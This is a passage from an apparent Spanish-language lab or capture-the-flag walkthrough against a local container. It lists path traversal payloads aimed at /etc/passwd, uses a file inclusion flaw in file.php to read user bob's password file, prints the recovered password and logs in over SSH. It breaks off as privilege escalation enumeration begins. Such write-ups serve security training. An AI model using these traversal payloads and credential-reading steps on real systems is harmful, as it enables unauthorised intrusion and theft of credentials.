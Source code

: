 ```bash
"....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                        
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                          
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                              
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                    
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                        
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                  
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"      
"....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"            
"....//....//....//....//etc/passwd"                                                                                                            
"....//....//....//etc/passwd"                                                                                                                  
```
### Credenciales Encontradas
**Nota** Ya sabemos que en codigo fuente existe un comentario **html** que nos indica donde esta almacenada la contrasena del usuario: **( bob )** asi que apuntamos a esa ruta:
```bash
http://172.17.0.2/file.php?file=....//....//....//usr/share/bob/password.txt
```

Tenemos la contrasena:
```bash
llv6ox3lx300
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora sabiendo esto nos conectaremos con este usuario por **ssh**:
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh bob@172.17.0.2 # ( llv6ox3lx300 )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"
```
